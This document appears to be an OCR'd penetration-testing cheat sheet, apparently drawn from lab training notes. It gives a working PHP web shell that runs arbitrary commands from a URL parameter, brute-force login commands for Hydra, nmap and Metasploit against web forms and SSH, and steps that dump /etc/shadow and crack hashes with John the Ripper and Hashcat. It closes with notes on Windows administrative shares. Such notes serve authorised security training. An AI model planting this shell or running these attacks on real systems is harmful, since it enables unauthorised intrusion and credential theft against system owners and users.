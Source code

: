 #### Uploading PHP shell
```php
<?php
if (isset($_GET['cmd']))
{
    $cmd = $_GET['cmd'];
    echo '<pre>';
    $result = shell_exec($cmd);
    echo $result;
    echo '</pre>';
}
?>
```

#### Authentication Cracking with Hydra
  - `hydra -U http-post-form` (get info on a module)
  - `hydra -L users.txt -P passwords.txt <service://server> <options>`
  - `hydra crackme.site http-post-form "/login.php:user=^USER^&pwd=^PASS^:invalid credentials" -L users.txt -P passwords.txt -f -V`
  - `hydra 192.168.1.2 ssh -L users.txt -P passwords.txt -f -V`

#### Authentication Cracking with nmap
  - `nmap -p 22 --script ssh-brute --script-args userdb=/root/users.txt demo.ine.local`

#### Authentication Cracking with metasploit
  - `use auxiliary/scanner/ssh/ssh_login`
  - `set RHOSTS demo.ine.local`
  - `set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt`
  - `set STOP_ON_SUCCESS true`
  - `set verbose true`
  - `exploit`

#### Password cracking using John the Ripper
  - `unshadow /etc/passwd /etc/shadow > crackme.txt`
  - `john --incremental -users:<users-list>  crackme.txt` (bruteforce, don't use it!)
  - `john --show crackme.txt`
  - `john --wordlist=<wordlist-filename> crackme.txt`
  - `john --wordlist=<wordlist-filename> --rules crackme.txt` (enable word mangling)

#### Cracking Password of Microsoft Word file using John the Ripper
 - `/usr/share/john/office2john.py MS_Word_Document.docx > hash`
 - `john --wordlist=passwds.txt hash`

#### Password cracking using Hashcat
  - `hashcat -m 0 -a 0 -D2 example0.hash example.dict` (m = 0 is MD5)
  - `hashcat -m 0 -a 0 -D2 example0.hash example.dict -r custom.rule`

#### Windows Shares
Interesting shares:
  - `\\ComputerName\C$` lets an administrator access a volume (C$, D$, E$...)
  - `\\ComputerName\admin$` points to the Windows installation directory
